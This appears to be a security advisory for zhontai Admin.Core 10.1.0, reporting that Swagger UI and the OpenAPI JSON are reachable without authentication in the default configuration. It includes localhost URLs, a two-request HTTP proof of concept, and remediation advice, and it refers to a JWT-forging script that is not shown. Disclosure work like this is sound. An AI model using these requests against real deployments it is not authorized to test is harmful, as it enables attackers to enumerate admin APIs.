

# Admin.Core — Unauthenticated Swagger / ApiUI exposure (AC-VULN-003)

| Field | Value |
|-------|-------|
| Vendor | zhontai |
| Product | Admin.Core (中台Admin) |
| Version | 10.1.0 |
| Type | Missing Authentication |
| CWE | CWE-306 / CWE-200 |
| Authentication | None |
| Severity | High |

## Summary

`swagger.enable` and `apiUI.enable` default to true. OpenAPI JSON and Swagger UI are reachable without authentication.

## Root cause

ApiUI/Swagger middleware enabled without auth gate in default Host config.

## Exploit / reproduction

Open without auth:

- [http://127.0.0.1:18010/doc/admin/swagger/index.html](http://127.0.0.1:18010/doc/admin/swagger/index.html)
- [http://127.0.0.1:18010/doc/admin/swagger/admin/swagger.json](http://127.0.0.1:18010/doc/admin/swagger/admin/swagger.json)


## PoC (Yakit)

```http
GET /doc/admin/swagger/index.html HTTP/1.1
Host: 127.0.0.1:18010
Connection: close

---
GET /doc/admin/swagger/admin/swagger.json HTTP/1.1
Host: 127.0.0.1:18010
Connection: close
```

Expected: HTTP 200 Swagger UI / OpenAPI listing admin APIs

## Screenshots



## Impact

Full API surface enumeration for attackers.

## Remediation

Disable swagger/apiUI in production or require admin authentication.

## References

- Local report: `../POC_VERIFICATION_REPORT.md`
- Scripts: `poc_verify/admincore_poc_verify.py`, `admincore_jwt_forge.py`
- Upstream: https://github.com/zhontai/Admin.Core
